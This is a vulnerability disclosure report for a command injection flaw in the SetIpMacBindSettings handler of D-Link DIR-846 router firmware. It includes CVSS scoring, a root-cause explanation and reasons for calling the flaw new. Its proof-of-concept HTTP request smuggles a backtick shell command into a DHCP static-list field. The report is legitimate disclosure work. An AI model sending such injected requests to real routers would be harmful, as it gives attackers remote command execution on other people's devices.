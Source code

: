 # D-Link dir-846 Wireless Router SetIpMacBindSettings Command Injection Vulnerability

## 1. Basic Information

- Vulnerability Type: command injection
- Vulnerability Description: In D-Link dir-846 wireless router, firmware version A1_FW100A43, there is a command injection vulnerability. Its SetIpMacBindSettings component implements a security vulnerability in processing the lan(0)_dhcps_staticlist parameter, allowing remote attackers to submit special requests through the vulnerability, resulting in command injection, which can lead to the execution of arbitrary system commands.
- Device Model:
   - D-Link dir-846 wireless router
   - Firmware Version: A1_FW100A43

## 2. Vulnerability Value

- Maturity of public profile: None
- Order of Public Vulnerability Analysis Report: None
- Stable reproducibility: yes
- Vulnerability Score (refer to CVSS)
  - V2: [8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator ?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
  - V3.1: [9.1 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov /vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H&version=3.1)
- Exploit Conditions
  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of Vulnerability Exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory
- Exploit Effect
  - Remote Code Execution (RCE)

## 3. PoC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetIpMacBindSettings"
HNAP_AUTH: 6253FA5471ACABEA23C722E4A59A3BFF 1666092978328
Content-Length: 111
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/AdvMacBindIp.html?t=1666092946356
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D; SESSION_ID=2:1598955110:2; uid=57XIVmwX; PrivateKey=BE92EF6F235196D24907CBEE3556D5ED; timeout=0; PHPSESSID=987c30cdace5d75170e8b4482f9d4055

{"SetIpMacBindSettings":{"lan_unit":"0","lan(0)_dhcps_staticlist":"1,`reboot`asdasdasd,12:34:56:78:90:11,192.168.0.9"}}
 ```

## 4. Vulnerability principle

When the Web management component receives a POST request, its SetIpMacBindSettings component implements a security hole in processing the lan(0)_dhcps_staticlist parameter, and the lan(0)_dhcps_staticlist parameter is concatenated to execute the command. Such carefully crafted parameters lead to command injection. Attackers can use this vulnerability to directly achieve the effect of remote arbitrary command execution.

Get the parameter position of lan(0)_dhcps_staticlist as shown in the figure below: ![lan(0)_dhcps_staticlist](./imgs/2.png)

The location of the vulnerable function is shown in the picture below: ![Alt pic](./imgs/3.png)

## 5. The basis for judging as a 0-day vulnerability

### 1. Not the same vulnerability as CVE-2021-46314 and CVE-2021-46315

Search the dir-846 keyword in the NVD database and find the vulnerabilities CVE-2021-46314 and CVE-2021-46315. Refer to the github warehouse information that disclosed the vulnerability: https://github.com/doudoudedi/DIR-846_Command_Injection/blob/main/DIR-846_Command_Injection1.md, the trigger code of this vulnerability is located in `SetMasterWLanSettings` and `SetNetworkTomographySettings`, the location The location of the code triggering this vulnerability is different, so it is not the same vulnerability.

### 2. NVD database search

Searching the NVD database using SetIpMacBindSettings as a keyword yielded no results.
